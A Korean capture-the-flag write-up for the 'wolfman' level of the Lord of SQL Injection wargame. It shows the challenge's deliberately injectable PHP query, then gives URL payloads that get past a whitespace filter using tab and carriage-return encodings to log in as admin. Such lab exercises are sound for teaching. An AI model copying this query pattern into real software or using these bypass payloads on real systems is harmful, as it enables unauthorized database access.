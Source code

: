 Lord of SQL Injection No.5 - wolfman
...

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~");
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
  if($result['id'] == 'admin') solve("wolfman");
  highlight_file(__FILE__);
?>
...
위 문제에서 알 수 있는 것
preg_match로 인해 . ()가 $_GET[pw]에 들어 있으면 No Hack ~_~이 뜨면서 문제풀이에 실패하게 된다.
preg_match로 인해 공백이 $_GET[pw]에 들어 있으면 No whitespace ~_~가 뜨면서 문제풀이에 실패하게 된다.
id값에는 guest라는 값이 고정되어 있으므로 pw에 값을 넣어 조작해야한다.
DB에 저장된 id가 admin이면 문제가 풀리게 된다.

문제 풀이 법
1) 공백 우회
스페이스바 %20 대신 Tab(%09),Carrage Return(%0d) 등을 이용한다.
los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=123'or%09id='admin'--%09-
los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=123'or%0did='admin'--%0d-
